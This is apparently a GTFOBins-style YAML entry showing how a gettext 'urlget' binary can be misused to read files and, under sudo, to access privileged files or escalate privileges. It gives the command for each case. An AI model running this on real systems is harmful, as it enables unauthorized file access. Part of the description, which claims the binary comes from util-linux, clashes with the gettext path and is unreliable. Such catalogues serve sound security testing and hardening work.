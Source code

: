 ```yaml
---
functions:
  file-read:
    - description: It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system. The output might be corrupted or incomplete if the file does not follow the expected database format. Available in util-linux on CentOS, RHEL, Fedora. 
      code: |
        LFILE=file_to_read
        /usr/lib/aarch64-linux-gnu/gettext/urlget $LFILE $LFILE
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
      code: |
        LFILE=file_to_read
        /usr/lib/aarch64-linux-gnu/gettext/urlget $LFILE $LFILE
---
```

